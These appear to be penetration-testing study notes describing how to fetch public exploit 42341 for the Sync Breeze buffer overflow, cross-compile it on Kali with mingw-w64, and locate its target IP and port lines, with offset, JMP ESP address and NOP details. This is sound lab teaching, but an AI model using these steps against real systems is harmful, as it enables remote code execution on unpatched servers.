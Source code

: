 Buffer overflow is triggered on POST request.

- Offset with 780 "A"s
- Overwrite instruction pointer with JMP_ESP at memory address `0x10090c83`
- Append shellcode with 16 NOPs
- Exploit included in HTTP POST and sent

Move this exploit to our working directory 

`searchsploit -m 42341`

Result:

```
Copied to: /home/kali/42341.c
```

Displaying the C headers at the beginning of the exploit code:

```
#include <inttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>
```

Script meant to be compiled on windows, but we can _cross compile_ exploit on Kali.

### Cross-Compiling Exploit Code 

Cross-Compiler: #mingw-w64

Installing the mingw-w64 cross-compiler in Kali

`sudo apt install mingw-w64`

Attempt to compile exploit, but it errors out.

`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe`

Error related to "WSAStartup", a function in `winsock.h`

Adding `-lws2_32` as a flag should resolve error. 

`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`

Successful compilation:

````
syncbreeze_exploit.exe
````

Instruct mingw-w64 to search for the _ws2_32_ DLL and include it in the final executable via static linking

Identifying the code lines responsible for the IP address and port

```
printf("[>] Socket created.\n");
server.sin_addr.s_addr = inet_addr("10.11.0.22");
server.sin_family = AF_INET;
server.sin_port = htons(80);
```
